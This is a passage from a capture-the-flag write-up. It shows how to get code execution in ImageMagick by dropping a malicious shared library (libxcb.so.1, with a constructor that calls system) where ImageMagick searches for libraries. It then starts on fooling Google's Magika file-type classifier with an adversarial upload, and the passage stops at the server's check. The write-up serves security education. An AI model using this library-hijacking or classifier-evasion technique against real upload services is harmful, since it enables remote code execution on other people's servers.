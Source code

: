 ```console
[pid  3455] openat(AT_FDCWD, "libxcb.so.1", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
[pid  3455] openat(AT_FDCWD, "libbrotlicommon.so.1", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

So, you just need to pick a shared library that you prefer, insert some malicious function into it, and you can achieve code execution!

I picked `libxcb.so.1` here as the target shared library. You can create a shared library with this command:
```bash
gcc -x c -shared -fPIC -o libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF
```

Then run this command in the same directory:
```bash
magick libxcb.so.1 out.png
```

You should see the output of `id` command!

You might have guessed the solution for the first part of this challenge by now. We can upload shared libraries to execute `/readflag give me the flag > out.png`, and `ImageMagick` will happily load the shared libraries, execute the command, and send back the flag in the `out.png`!

But the job's not finished. There's a check by `Magika`, powered by a state-of-the-art deep learning model by Google, to ensure that the file we uploaded is an image file.

However, our shared library is an ELF file, not an image file. How is it possible for our ELF to be identified as an image file?

### Create adversarial example for Magika

In the [main.py](<./challenge/src/main.py>), this is how the server checks the file type of the uploaded file:
```python
    m = Magika()
    output = m.identify_path(output_dir / file.filename).output
    if output.group != "image" or output.score != 1.0:
        print("Suspicious file detected")
        shutil.rmtree(temp_dir)
        raise HTTPException(status_code=status.HTTP_400_BAD_REQUEST)
```

It calls `Magika` to identify the file type of the uploaded file, and if the file is not recognized as an image or the score is not `1.0`, the server will reject the file.
